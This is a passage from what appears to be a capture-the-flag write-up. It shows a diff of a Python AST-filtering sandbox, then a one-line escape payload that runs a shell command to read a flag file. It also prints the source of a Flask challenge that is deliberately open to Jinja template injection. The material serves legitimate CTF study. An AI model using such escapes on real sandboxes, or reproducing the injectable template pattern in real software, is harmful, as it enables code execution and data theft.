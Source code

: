 ```diff
<             'SetComp': ['elt'],
<             'DictComp': ['key', 'value'],
<             'GeneratorExp': ['elt'],
---
>             'ListComp': ['elt', 'generators'],
>             'SetComp': ['elt', 'generators'],
>             'DictComp': ['key', 'value', 'generators'],
>             'GeneratorExp': ['elt', 'generators'],
70a78
>             'comprehension': ['target', 'iter', 'ifs'],
81c89,90
<     expr = sys.stdin.read()
---
>     check_flag1()
>     expr = sys.stdin.readline()
```

> it will be slightly different because I edit check_flag1() code

Since generator is blocked, we can use subscript to exploit.

The final payload:
```python
[][__import__('os').system('cat flag2')]
```

## Shine (pt 190)

```python
{% raw %}
import flask
import os
app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index(): 
  return open(__file__).read()

@app.route('/shrine/')
def shrine(shrine): 
  
  def safe_jinja(s): 
    s = s.replace('(', '').replace(')', '') 
    blacklist = ['config', 'self'] 
    return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 
  
  return flask.render_template_string(safe_jinja(shrine)) 

if __name__ == '__main__': 
  app.run(debug=True){% endraw %}
```
